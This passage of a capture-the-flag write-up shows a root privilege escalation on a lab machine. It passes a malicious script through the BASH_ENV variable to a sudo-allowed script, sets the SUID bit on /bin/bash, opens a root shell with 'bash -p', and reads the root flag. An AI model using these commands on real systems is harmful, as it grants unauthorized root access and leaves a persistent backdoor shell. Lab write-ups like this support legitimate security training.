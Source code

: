 ```shell
tmpfs           392M     0  392M   0% /run/user/1000
```

## Privilege Escalation to root

Since we knew we were able to `modify` the `environment variables` and we could use `BASH_ENV` before executing the `/usr/bin/systeminfo` script, we created a `malicious script` using `shebang` and `chmod u+s` on `/bin/bash` to set the `SUID` to get access as `root`.

```shell
hish@environment:~$ cat privesc 
#!/bin/bash
chmod u+s /bin/bash
```

First we changed the `permission` for our `script` to get it executed by everyone.

```shell
hish@environment:~$ chmod 777 privesc
```

Then we pointed to it using the `BASH_ENV` variable and executed `/usr/bin/systeminfo` using `sudo`.

```shell
hish@environment:~$ sudo BASH_ENV=privesc /usr/bin/systeminfo
<--- CUT FOR BREVITY --->
```

```shell
hish@environment:~$ ls -lah /bin/bash
-rwsr-xr-x 1 root root 1.3M Mar 30  2024 /bin/bash
```

```shell
hish@environment:~$ /bin/bash -p
bash-5.2#
```

## root.txt

```shell
bash-5.2# cat /root/root.txt
a5d7ceb739bb2524326b585863978ced
```
